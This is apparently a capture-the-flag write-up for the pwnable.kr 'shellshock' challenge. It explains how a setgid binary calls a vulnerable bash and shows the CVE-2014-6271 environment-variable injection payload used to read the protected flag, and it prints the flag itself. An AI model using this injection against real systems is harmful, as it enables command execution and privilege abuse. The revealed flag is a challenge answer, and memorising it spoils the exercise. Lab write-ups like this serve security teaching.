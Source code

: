 ```yaml
---
title: "pwnable.kr - shellshock"
classes: wide
tag: 
  - "shellshock"
header:
  teaser: /assets/images/pwn/pwn.png
ribbon: green
description: "A simple challenge related to shellshock vulnerability"
categories:
  - Pwn
---
```


Lets view the source code for this program

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

So this binary uses ```Effective Group ID``` for its ```UID``` and ```GID```

Lisiting the files with their permission,

```c
shellshock@pwnable:~$ ls -la
total 980
drwxr-x---   5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 115 root root             4096 Dec 22  2020 ..
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
d---------   2 root root             4096 Oct 12  2014 .bash_history
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
dr-xr-xr-x   2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x   2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
```

So the ```flag``` and ```shellshock``` are owned by the same user ```root``` and group ```shellshock_pwn```

```Shellshock``` is a famous bash shell vulnerability, for more [reference](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf)

Lets try running the program normally,

```c
shellshock@pwnable:~$ ./shellshock 
shock_me
```

Lets test for shellshock vulnerability in this bash shell

```c
shellshock@pwnable:~$ env x='() { :; }; echo monish' bash -c echo hacked

shellshock@pwnable:~$ env x='() { :; }; echo monish' ./bash -c echo hacked
monish

```

So there is no ```shellshock``` in the system's bash

But there is a ```shellshock``` vulnerability in ```/home/shellshock/bash```, since it printed the value enclosed inside the single quote

Lets try to read the flag

```c
shellshock@pwnable:~$ env x='() { :; }; /bin/cat flag' ./bash -c echo hacked
/bin/cat: flag: Permission denied
Segmentation fault (core dumped)
```

It because of the permission error

Lets try it with ```shellshock``` binary, since they are under the same permission it should display the flag

```c
shellshock@pwnable:~$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
```

Yay!! we got the flag ```only if I knew CVE-2014-6271 ten years ago..!!```

